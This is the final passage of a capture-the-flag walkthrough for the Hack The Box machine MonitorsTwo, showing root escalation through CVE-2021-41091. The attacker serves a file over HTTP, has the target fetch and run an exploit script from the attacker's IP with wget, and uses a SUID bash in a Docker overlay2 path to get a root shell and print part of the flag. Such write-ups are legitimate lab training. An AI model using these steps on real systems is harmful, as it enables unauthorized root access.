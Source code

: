 Running HTTP Server:
```shell
┌──(kali㉿rar)-[~/HTB/MonitorsTwo/CVE-2021-41091]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Getting the exploit from our HTTP server:
```shell
marcus@monitorstwo:/tmp$ wget http://tun0_IP:8000/exp.sh
```

Run the exploit:
```shell
marcus@monitorstwo:/tmp$ chmod +x exp.sh
marcus@monitorstwo:/tmp$ ./exp.sh
```

and if running the exploit didn't work and you are sure you set the SUID bit you can do this:
```shell
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
```

and thats all ! 

```shell
bash-5.1# cut -b 1-15 root.txt
9285d5104e87a26
```
Thank You For Reading ❤
